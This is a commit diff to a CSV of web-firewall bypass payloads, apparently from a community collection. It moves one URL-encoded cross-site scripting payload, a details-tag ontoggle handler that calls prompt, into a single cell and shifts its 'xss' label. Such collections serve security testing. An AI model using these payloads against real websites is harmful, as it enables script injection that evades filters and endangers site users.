

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
-B487: &lt;dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt
+B487: &lt;dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x&gt;
-C487: a(origin)%20x&gt;
+C487: xss
-D487: xss
+D487: (empty)
```
